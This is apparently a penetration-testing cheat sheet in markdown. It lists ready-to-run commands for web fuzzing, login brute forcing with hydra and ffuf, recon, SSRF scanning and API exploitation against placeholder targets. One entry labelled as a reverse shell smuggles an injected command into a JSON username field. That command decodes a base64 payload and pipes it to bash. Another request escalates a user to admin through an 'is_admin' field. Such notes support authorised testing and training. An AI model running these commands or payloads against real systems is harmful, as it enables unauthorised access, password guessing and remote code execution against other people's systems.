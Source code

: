 ## 🔍 Web Fuzzing Tools

### 🔹 FFUF — Fuzzing parameters, files, login forms, subdomains
```bash
ffuf -w wordlist.txt -u http://target.com/FUZZ
```
**Examples:**
- Fuzz POST param for command injection:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt \
  -u http://target.com/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=FUZZ" -fw 3
```
- Login form brute force:
```bash
ffuf -w usernames.txt:USERNAME -w passwords.txt:PASSWORD -X POST \
  -u http://target.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=USERNAME&password=PASSWORD" -fc 401
```
- Subdomain fuzzing:
```bash
ffuf -w subdomains.txt -u http://target.com/ -H "Host: FUZZ.target.com" -fs 0
```

### 🔹 Gobuster
```bash
gobuster dir -u http://target.com/ -w wordlist.txt -x php,html,txt -t 50
```
- DNS mode:
```bash
gobuster dns -d target.com -w subdomains.txt -t 50
```

### 🔹 Dirsearch
```bash
dirsearch -u http://target.com/ -e php,html,txt -w wordlist.txt -t 40
```

### 🔹 Feroxbuster
```bash
feroxbuster -u http://target.com/ -w wordlist.txt -x php,html -t 50 -r
```

### 🔹 Wfuzz
```bash
wfuzz -w wordlist.txt -u http://target.com/FUZZ --hc 404
wfuzz -w wordlist.txt -u http://target.com/FUZZ.php --hc 404
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Forwarded-For: FUZZ" --hc 404
```

### 🔹Link to different [[📂 Word List]] 
---

## 🧠 Fuzzing Parameters / Cookies / Headers

- Fuzz GET parameter values:
```bash
ffuf -u "http://target.com/page.php?param=FUZZ&static=value" -w wordlist.txt -mc all -fc 302 -H "Cookie: PHPSESSID=abcd"
```
- Fuzz cookies:
```bash
ffuf -w common.txt -u http://target.com/ -H "Cookie: FUZZ=1" -fs 0
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Header: FUZZ" --hc 404
```

---

## 🔑 Brute Force / Login Cracking

### 🔹 Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form \
"/login:username=^USER^&password=^PASS^:F=Login failed"
```

---

## 🔎 Recon Tools

### 🔹 WhatWeb
```bash
whatweb http://target.com
```
> Detects technologies used by a website

### 🔹 Sublist3r
```bash
sublist3r -d target.com -o subdomains.txt
```

### 🔹 SearchSploit
```bash
searchsploit keyword
```
> Searches for known exploits in Exploit-DB

---

## 🔁 API Interaction / Web Exploitation

### 🔹 Basic curl with JSON
```bash
curl -sX PUT http://target.com/api/endpoint \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@htb.com", "is_admin": 1}' | jq
```

### 🔹 Reverse shell via curl + API
```bash
curl -sX POST http://target.com/api \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"username": "theo;echo <base64_payload> | base64 -d | bash;"}'
```
> Always encode payload in Base64 to avoid special char issues

---

## 🌐 SSRF Exploitation

### 🔹 SSRFmap
```bash
ssrfmap.py -r request.txt -p url -m portscan
```
> Exploits SSRF via given request, fuzzes the 'url' parameter, and runs internal port scanning



